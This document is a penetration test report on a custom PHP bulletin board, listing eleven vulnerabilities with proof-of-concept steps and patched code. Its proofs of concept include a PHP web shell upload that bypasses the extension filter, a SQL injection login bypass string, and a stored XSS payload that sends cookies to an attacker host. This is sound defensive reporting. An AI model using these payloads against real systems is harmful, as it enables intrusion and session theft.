

Executive summary
A black-box and gray-box penetration test was conducted against a custom LAMP (Linux, Apache, MySQL, PHP) bulletin board application deployed on AWS Lightsail. The objective was to assess the security posture of the application and identify vulnerabilities that an unauthenticated or low-privileged attacker could exploit.
The assessment identified 11 vulnerabilities of varying severity, including three critical findings: remote code execution via file upload, authentication bypass via SQL injection, and hardcoded database credentials. Any one of them would let a remote attacker fully compromise the system without prior access.
All findings were remediated following discovery. Proof-of-concept reproduction steps and patched source code are provided for each finding below.
Scope and methodology
| Target | Custom PHP bulletin board (LAMP stack, AWS Lightsail) |
|---|---|
| Scope | Web application: authentication, session management, file upload, post CRUD, admin panel |
| Assessment type | Black-box (initial) plus gray-box (source code review for patch verification) |
| Methodology | OWASP Testing Guide v4, manual testing, Burp Suite Community |
| Tools used | Burp Suite, browser DevTools, manual SQL and XSS payload crafting |
| Environment | Isolated test environment; no production data at risk |
Findings index
| ID | Finding | Severity | CVSS |
|---|---|---|---|
| V-01 | Remote code execution via file upload | Critical | 9.8 |
| V-02 | Authentication bypass via SQL injection | Critical | 9.1 |
| V-03 | Hardcoded database credentials | Critical | 9.1 |
| V-04 | Stored cross-site scripting (XSS) | High | 7.4 |
| V-05 | Insecure direct object reference (IDOR) | High | 7.1 |
| V-06 | Session fixation and missing timeout | High | 7.0 |
| V-07 | Directory listing enabled | High | Not scored |
| V-08 | PHP configuration exposure | Medium | Not scored |
| V-09 | No rate limiting on login (brute force) | Medium | Not scored |
| V-10 | Missing CSRF protection | Medium | Not scored |
| V-11 | Verbose error messages | Low | Not scored |
Detailed findings
Remote code execution via file upload
V-01Critical
Description
The file upload function validated extensions using a client-side blacklist, which was trivially bypassed by renaming .php to .PHP or .php5. The upload directory was also accessible via directory listing (V-07), allowing an attacker to locate and execute the uploaded web shell.
Vulnerable code
// Weak blacklist: case-sensitive, bypassable
$disallowed = ['php', 'php5', 'phtml'];
if (in_array($ext, $disallowed)) { die("Not allowed"); }
// .PHP and .Php are not in the list, so the bypass succeedsProof of concept
- Create a PHP web shell,
<?php system($_GET['cmd']); ?>, saved asshell.PHP. - Upload it via the post creation form; the server accepts the file.
- Browse to the upload directory (exposed via directory listing) to locate the file path.
- Execute
http://target/uploads/shell.PHP?cmd=id, which returnswww-data. - Escalate further:
?cmd=cat+/etc/passwd, a reverse shell, and so on.
Remediation
// Whitelist approach: only explicitly allowed types pass
$allowed = ['jpg', 'jpeg', 'png', 'gif'];
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mimeType = finfo_file($finfo, $_FILES['file']['tmp_name']);
if (!in_array(strtolower($ext), $allowed) || !in_array($mimeType, $allowedMimes)) {
die("File type not permitted.");
}
// Also add to .htaccess in the upload dir: php_flag engine offPatched. Implemented MIME-type whitelist validation; added php_flag engine off in the uploads directory .htaccess to prevent script execution regardless of extension.
Authentication bypass via SQL injection
V-02Critical
Description
User input was concatenated directly into the SQL query without parameterisation, allowing an attacker to inject SQL logic that bypasses password verification entirely and authenticates as the first user (typically the administrator).
Vulnerable code
$sql = "SELECT * FROM users WHERE username LIKE '%" . $username . "%'";
// No sanitisation: user input lands verbatim in the queryProof of concept
- Enter
' OR '1'='1' --in the username field and any value in the password field. - The resulting query:
SELECT * FROM users WHERE username LIKE '%' OR '1'='1' --%'. - It always evaluates to true and returns the first row (the administrator account).
- The attacker is logged in as admin with no valid credentials.
Remediation
// Prepared statement: data and query structure are separated
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->bind_param("s", $username);
$stmt->execute();
$result = $stmt->get_result();Patched. All database queries converted to prepared statements with bound parameters.
Hardcoded database credentials
V-03Critical
Description
Database hostname, username and password were hardcoded in plain text in PHP source files tracked in the version control repository. Combined with directory listing (V-07) or a source code leak, this would hand an attacker direct database credentials.
Vulnerable code
$host = "localhost";
$db = "knockon_db";
$user = "knockon_user";
$pass = "SuperSecret123!"; // Hardcoded in source, committed to gitRemediation
// Load credentials from environment variables
$host = getenv('DB_HOST');
$db = getenv('DB_NAME');
$user = getenv('DB_USER');
$pass = getenv('DB_PASS');
// Store in a .env file and add .env to .gitignorePatched. Credentials moved to a .env file; .env added to .gitignore; production values rotated.
Stored cross-site scripting (XSS)
V-04High
Description
Post titles and content were stored in the database without sanitisation and rendered in the browser without output encoding. An attacker with a low-privileged account could inject a persistent script that runs in any victim’s browser, enabling session hijacking, credential theft or malware delivery.
Proof of concept
- Create a new post with the title
<script>document.location='http://attacker.com/steal?c='+document.cookie</script>. - Any user who views the posts list triggers the script.
- The session cookie is sent to the attacker’s server, enabling session hijacking.

Remediation
// Escape all user-supplied output before rendering
echo "<h3>" . htmlspecialchars($row['title'], ENT_QUOTES, 'UTF-8') . "</h3>";
echo "<p>" . htmlspecialchars($row['content'], ENT_QUOTES, 'UTF-8') . "</p>";Patched. htmlspecialchars() applied to all user-controlled output; Content-Security-Policy header added.
Insecure direct object reference (IDOR)
V-05High
Description
Post edit and delete endpoints accepted a post_id URL parameter without verifying that the requesting user owned the post. Any authenticated user could modify or delete another user’s content by changing the ID in the URL.
Proof of concept
- Log in as
user_aand open your own post atedit_post.php?id=42. - Change the URL to
edit_post.php?id=41(another user’s post). - The edit form loads with the victim’s post; changes can be saved or the post deleted.
Remediation
// Verify ownership before allowing edit or delete
$stmt = $conn->prepare("SELECT user_id FROM posts WHERE id = ?");
$stmt->bind_param("i", $post_id);
$stmt->execute();
$post = $stmt->get_result()->fetch_assoc();
if ($post['user_id'] !== $_SESSION['user_id']) {
http_response_code(403); die("Access denied.");
}Patched. Ownership verification added to all post mutation endpoints.
Session fixation and missing session timeout
V-06High
Description
The session ID was not regenerated on successful login, allowing a pre-authentication session fixation attack. Sessions also had no expiry, so stolen session tokens stayed valid indefinitely.
Remediation
// Regenerate the session ID on privilege change (login)
session_start();
session_regenerate_id(true); // delete the old session
// Session timeout (30 minutes)
ini_set('session.gc_maxlifetime', 1800);
session_set_cookie_params(1800);Patched. Session ID regenerated on login; 30-minute inactivity timeout; HttpOnly and Secure flags set on the session cookie.
Directory listing enabled
V-07High
Description
Apache’s Options Indexes was enabled on the web root and upload directories, letting unauthenticated users browse every file, including uploaded content, .git artefacts and configuration files.
Remediation
# Apache config: disable directory listing globally
<Directory /var/www/html>
Options -Indexes
AllowOverride All
</Directory>Patched. Options -Indexes set in the Apache configuration; .git directory access blocked via .htaccess.
PHP configuration exposure
V-08Medium
PHP error display was enabled in production (display_errors = On), and a phpinfo() call was publicly reachable, exposing the PHP version, loaded modules, server paths and configuration values, all useful for targeted exploitation.
Patched. display_errors = Off; log_errors = On; phpinfo() removed from production; PHP version hidden from HTTP headers.
No rate limiting on login (brute force)
V-09Medium
The login endpoint had no rate limiting, account lockout or CAPTCHA. An attacker could make unlimited password guesses against any account with no observable defence.
Patched. Failed-attempt counter stored in the session; account locked for 15 minutes after 5 consecutive failures; lockout state persisted in the database per username and IP.
Missing CSRF protection on state-changing actions
V-10Medium
No form carried a CSRF token. A malicious site could craft a hidden form that triggers authenticated actions (post creation, deletion) in a logged-in user’s session.
Patched. A cryptographically random CSRF token per session, embedded in every state-changing form and validated server-side before any POST is processed.
Verbose error messages leaking stack traces
V-11Low
Unhandled exceptions rendered full stack traces in the browser, including file paths, line numbers and SQL query fragments: a detailed map of the application’s internals.
Patched. Global exception handler; all errors logged server-side only; generic error pages shown to users.
Conclusion and risk summary
The application was open to a full chain of compromise from an unauthenticated attacker:
- V-07, directory listing exposed the upload path.
- V-01, upload filter bypass placed a PHP web shell there.
- Remote code execution as
www-data, while V-03, the hardcoded credentials, gave direct database access.
Each of the three critical vulnerabilities was on its own a total-compromise scenario.
All 11 vulnerabilities were remediated through input validation, parameterised queries, secure session management and server hardening. Applying OWASP practice from the development stage removes whole vulnerability classes rather than patching symptoms one at a time.